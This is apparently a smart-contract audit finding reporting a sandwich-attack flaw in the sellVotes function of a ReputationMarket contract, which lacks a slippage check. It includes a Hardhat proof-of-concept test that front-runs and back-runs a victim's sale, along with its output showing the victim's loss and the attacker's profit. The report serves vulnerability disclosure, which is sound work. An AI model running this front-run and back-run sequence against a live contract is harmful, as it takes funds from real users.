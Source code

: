 Rough Admiral Yak

High

# Sandwich Attack Vulnerability in `ReputationMarket.sol::sellVotes`

### Summary

A vulnerability in the `ReputationMarket.sol` contract allows for a sandwich attack to exploit the price calculation for votes, resulting in users receiving less than expected funds when selling votes. The vulnerability occurs because the `sellVotes` function lacks a slippage check, enabling an attacker to manipulate the market by performing front-running (buying votes) and back-running (selling votes) operations between the victim's vote sale. This results in a negative impact for users as they receive fewer funds than anticipated, while attackers can profit from manipulating the vote price.


### Root Cause

The root cause of the vulnerability lies in two main issues:

Lack of Slippage Check in `sellVotes` Function: In the `sellVotes` function, there is no mechanism to check for slippage or the potential impact of other transactions that could manipulate the price calculation. This absence of slippage control makes the system vulnerable to price manipulation by front-running and back-running attackers.

Price Calculation Based on Voting Shares: The function `_calcVotePrice` calculates the price of votes based on the proportion of votes (positive or negative) to total votes in the market. When attackers purchase votes to alter the market dynamics before a user sells, the price calculation can change, and the user can receive less than expected. Specifically, the `totalVotes` can be manipulated by attackers who add or remove votes.

https://github.com/sherlock-audit/2024-11-ethos-network-ii/blob/main/ethos/packages/contracts/contracts/ReputationMarket.sol?plain=1#L920-L923

```javascript
function _calcVotePrice(Market memory market, bool isPositive) private pure returns (uint256) {
    uint256 totalVotes = market.votes[TRUST] + market.votes[DISTRUST];
    return (market.votes[isPositive ? TRUST : DISTRUST] * market.basePrice) / totalVotes;
}
```


### Internal pre-conditions

The user must buy votes and sell them

### External pre-conditions

_No response_

### Attack Path

- Victim buys positive votes: The victim (user A) buys positive votes in the market, paying a certain amount for them.
- Victim wants to sell and simulates vote sale: User A simulates the sale of these votes to calculate the expected funds they will receive.
- Attacker front-runs: The attacker (user B) monitors mempool and buys negative votes before the victim sells their votes, changing the market dynamics.
- Victim sells votes: User A sells their positive votes, expecting to receive the funds calculated earlier. However, the market price has been manipulated by the attacker.
- Attacker back-runs: After the victim’s sale, the attacker sells their negative votes, taking advantage of the manipulated price.
- User receives less than expected: User A receives less than the expected funds due to the price manipulation caused by the attacker's actions.

This also works for opposit vote 

### Impact

The user suffers an approximate loss in the funds received from selling votes due to price manipulation. The attacker gains a profit by manipulating the vote price via a sandwich attack.

In this case, user A receives less than expected because the price calculation changes between their buy and sell operations, as a result of the attacker’s vote purchases.

Loss for user A: User A receives fewer funds than expected due to the manipulated vote price.
Gain for attacker: The attacker profits from buying votes before and selling them after the victim's transaction, exploiting the absence of a slippage check in the contract.


### PoC

create new file named test/reputationMarket/sandwich.test.ts (or add the it part to rep.market.test.ts)

```javascipt
// test/reputationMarket/sandwich.test.ts
import { loadFixture } from '@nomicfoundation/hardhat-toolbox/network-helpers.js';
import { expect } from 'chai';
import hre from 'hardhat';
import { type ReputationMarket } from '../../typechain-types/index.js';
import { createDeployer, type EthosDeployer } from '../utils/deployEthos.js';
import { type EthosUser } from '../utils/ethosUser.js';
import { DEFAULT, getExpectedVotePrice, MarketUser } from './utils.js';

const { ethers } = hre;

describe('Sandwich Attack', () => {
  let deployer: EthosDeployer;
  let ethosUserA: EthosUser;
  let ethosUserB: EthosUser;
  let userA: MarketUser;
  let userB: MarketUser;
  let reputationMarket: ReputationMarket;

  beforeEach(async () => {
    deployer = await loadFixture(createDeployer);

    if (!deployer.reputationMarket.contract) {
      throw new Error('ReputationMarket contract not found');
    }
    ethosUserA = await deployer.createUser();
    await ethosUserA.setBalance('2000');
    ethosUserB = await deployer.createUser();
    await ethosUserB.setBalance('2000');

    userA = new MarketUser(ethosUserA.signer);
    userB = new MarketUser(ethosUserB.signer);

    reputationMarket = deployer.reputationMarket.contract;
    DEFAULT.reputationMarket = reputationMarket;
    DEFAULT.profileId = ethosUserA.profileId;
    await reputationMarket
      .connect(deployer.ADMIN)
      .setUserAllowedToCreateMarket(DEFAULT.profileId, true);
    await reputationMarket.connect(userA.signer).createMarket({ value: DEFAULT.initialLiquidity });
  });

  it('sandwich attack scenario and user receives less than expected funds', async () => {
    // 1. User buys positive votes
    const { fundsPaid: userBuyFundsPaid } = await userA.buyVotes({ buyAmount: DEFAULT.buyAmount * 5n, isPositive: true });
    const { trustVotes: userPositiveVotes } = await userA.getVotes();
  
    // 2. User simulates selling votes to get expected funds
    const { simulatedFundsReceived: expectedFunds } = await userA.simulateSell({
      sellVotes: userPositiveVotes,
      isPositive: true,
    });
  
    // 3. Attacker buys negative votes before user sells (front-running)
    await userB.buyVotes({ buyAmount: DEFAULT.buyAmount * 3n, isPositive: false });
    const { distrustVotes: attackerNegativeVotes, fundsPaid: attackerBuyFundsPaid } = await userB.buyVotes({
      buyAmount: DEFAULT.buyAmount * 3n,
      isPositive: false,
    });
  
    // 4. User sells votes and captures actual funds received
    const { fundsReceived: actualFunds } = await userA.sellVotes({
      sellVotes: userPositiveVotes,
      isPositive: true,
    });
  
    // 5. Attacker sells votes after user sells (back-running)
    const { fundsReceived: attackerSellFundsReceived } = await userB.sellVotes({
      sellVotes: attackerNegativeVotes,
      isPositive: false,
    });
  
    // Debugging logs to observe the values during test execution.
    const attackerProfit = attackerSellFundsReceived - attackerBuyFundsPaid;
    console.log("user Paid:", userBuyFundsPaid);
    console.log("User Positive Votes:", userPositiveVotes);
    console.log("Attacker Negative Votes:", attackerNegativeVotes);
    console.log("User Expected Funds:       ", expectedFunds);
    console.log("User Actual Funds Received:", actualFunds);
    console.log("Attacker Paid:    ", attackerBuyFundsPaid);
    console.log("Attacker Received:", attackerSellFundsReceived);

    // Verify that actual funds received are less than expected funds
    expect(actualFunds).to.be.lt(expectedFunds);
      
    // Assert that attacker's profit is positive
    expect(attackerProfit).to.be.gt(0);
  });
});
```

the output is:
```text
└─[0]  NODE_OPTIONS='--no-warnings=ExperimentalWarning --experimental-loader ts-node/esm/transpile-only' npx hardhat test test/reputationMarket/sandwich.test.ts


  Sandwich Attack
user Paid: 44071428571428570n
User Positive Votes: 6n
Attacker Negative Votes: 12n
User Expected Funds:        44071428571428570n
User Actual Funds Received: 12211232738709517n
Attacker Paid:     23934253525971791n
Attacker Received: 98198662448662444n
    ✔ sandwich attack scenario and user receives less than expected funds


  1 passing (944ms)

```



### Mitigation

Implement a Slippage Tolerance Check